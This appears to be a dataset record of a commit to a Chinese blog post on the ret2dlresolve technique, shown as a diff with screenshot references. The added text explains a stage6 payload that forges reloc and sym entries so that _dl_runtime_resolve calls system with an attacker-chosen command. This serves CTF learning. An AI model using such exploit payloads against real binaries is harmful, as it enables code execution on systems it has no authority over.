

Before and after one commit to RhythmMark/RhythmMark.github.io, a Jekyll site: the page built from _posts/2019-04-03-Return_to_dl_resolve.md, in a window 1280 px wide and 1400 px high, scrolled down 8945 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-04-03-Return_to_dl_resolve.md

````diff
--- a/_posts/2019-04-03-Return_to_dl_resolve.md
+++ b/_posts/2019-04-03-Return_to_dl_resolve.md
@@ -7,7 +7,6 @@ tags: [pwn]
 feature:  https://p0.ssl.qhimg.com/t01a969a8d998ad5508.png
 comments: true
 ---
-
 
 # 从壹开始做ret2dlresolve
 
@@ -312,9 +313,65 @@ gdb-peda$ x/5i 0x804861b
 
 因此运行这个输出/bin/sh。（看不到的话在脚本里开下``context.log_level = "debug"``）
 
+顺水推舟（？）讲下stage2 到 6 做了什么吧。主要就是修改payload2，达到：
+
+>1.控制eip为PLT[0]的地址，只需传递一个index_arg参数
+2.控制index_arg的大小，使reloc的位置落在可控地址内
+3.伪造reloc的内容，使sym落在可控地址内
+4.伪造sym的内容，使name落在可控地址内
+5.伪造name为任意库函数，如system
+
+的目的
+
+#### stage6
+
+```
+payload2 = 'AAAA'
+payload2 += p32(plt_0)
+payload2 += p32(index_offset)
+payload2 += 'AAAA'
+payload2 += p32(base_stage + 80)
+payload2 += 'aaaa'
+payload2 += 'aaaa'
+payload2 += fake_reloc # (base_stage+28)的位置
+payload2 += 'B' * align
+payload2 += fake_sym # (base_stage+36)的位置
+payload2 += "system\x00"
+payload2 += 'A' * (80 - len(payload2))
+payload2 += cmd + '\x00'
+payload2 += 'A' * (100 - len(payload2))
+```
+
+建议把最开始放的那张图打印出来对着看（不
+
+plt[0]存放的是：
+
+```
+push    ds:dword_804A004
+jmp     ds:dword_804A008
+```
+而jmp的地址就是``_dl_runtime_resolve()``函数的地址
+
+所以会执行_dl_runtime_resolve(link_map,reloc_arg)
+
+而这里的``reloc_arg``就是``payload2 += p32(index_offset)``中的``index_offset``
+
+又因为
+
+``index_offset = (base_stage + 28) - rel_plt``
+
+所以，执行``_dl_runtime_resolve()``的时候——
+
+请读者自行理解。
 
 ## Start
 
 由于出题人 **过于友好**，我手上的这道题，buf大小为0x28，读入0x40个字符，即只溢出了**24**个bytes，不能像上面那道题一样一上来就能发送0x4d大小的字符串……
 
 那怎么办呢，那我就跑路了（×）
+
+![](http://5b0988e595225.cdn.sohucs.com/images/20181021/54c568f78c4f4cf5839215ff92430f52.gif)
+
+江湖不见
+
+想知道怎么做看[这里](https://delcoding.github.io/2019/01/ret2dl_resolve_x86/)好了
````
Also changed, not shown: other parts of _posts/2019-04-03-Return_to_dl_resolve.md (+3 -1 lines).
